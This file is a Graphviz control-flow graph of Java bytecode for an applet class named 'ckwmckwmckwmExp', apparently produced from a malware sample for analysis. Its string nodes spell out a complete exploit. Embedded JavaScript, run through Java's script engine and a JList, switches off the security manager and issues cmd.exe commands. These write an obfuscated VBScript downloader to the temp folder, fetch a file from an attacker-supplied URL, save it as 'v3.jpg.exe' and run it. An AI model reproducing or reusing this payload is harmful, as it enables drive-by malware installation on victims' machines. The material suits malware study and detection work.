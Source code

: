 digraph "" {
    "r0 := @this: ckwmckwmckwmExp"
    "load.r r0"
    "r0 := @this: ckwmckwmckwmExp"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r11"
    "newarray"->"store.r $r11";
    "load.r $r11"
    "store.r $r11"->"load.r $r11";
    "push 0"
    "load.r $r11"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "new java.lang.StringBuffer"
    "store.r r2"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){java.lang.System.setSecurityManager(null); java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo dim m,s,wmck>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo wmck=\\\"GoodluckCkwmCkwm\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo m=\\\"#Mi#c#r##os#o#ft##.#X#M#LH##T#T#P\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo s=\\\"_AD_O_DB_._S_t__re_am_\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"#\\\",\\\"\\\")) >>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"_\\\",\\\"\\\"))>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\-______-.vbs\\\" \""
    "dup1.r"->"push \"var error = new Error(\\\"My error\\\");this.toString = function(){java.lang.System.setSecurityManager(null); java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo dim m,s,wmck>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo wmck=\\\"GoodluckCkwmCkwm\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo m=\\\"#Mi#c#r##os#o#ft##.#X#M#LH##T#T#P\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo s=\\\"_AD_O_DB_._S_t__re_am_\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"#\\\",\\\"\\\")) >>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"_\\\",\\\"\\\"))>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\-______-.vbs\\\" \"";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){java.lang.System.setSecurityManager(null); java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo dim m,s,wmck>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo wmck=\\\"GoodluckCkwmCkwm\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo m=\\\"#Mi#c#r##os#o#ft##.#X#M#LH##T#T#P\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo s=\\\"_AD_O_DB_._S_t__re_am_\\\">>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"#\\\",\\\"\\\")) >>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"_\\\",\\\"\\\"))>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\-______-.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\-______-.vbs\\\" \""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \" \\\"%temp%\\\\v3.jpg.exe\\\"&& \\\"%temp%\\\\v3.jpg.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \" \\\"%temp%\\\\v3.jpg.exe\\\"&& \\\"%temp%\\\\v3.jpg.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\v3.jpg.exe\\\"&& \\\"%temp%\\\\v3.jpg.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"return \\\"exploit!\\\";};\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"return \\\"exploit!\\\";};\"";
    "push \"return \\\"exploit!\\\";};\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r11";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r11"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <ckwmckwmckwmExp: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <ckwmckwmckwmExp: javax.swing.JList list>";
    "fieldput <ckwmckwmckwmExp: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <ckwmckwmckwmExp: javax.swing.JList list>"
    "load.r r0"->"fieldget <ckwmckwmckwmExp: javax.swing.JList list>";
    "virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>"
    "fieldget <ckwmckwmckwmExp: javax.swing.JList list>"->"virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
}
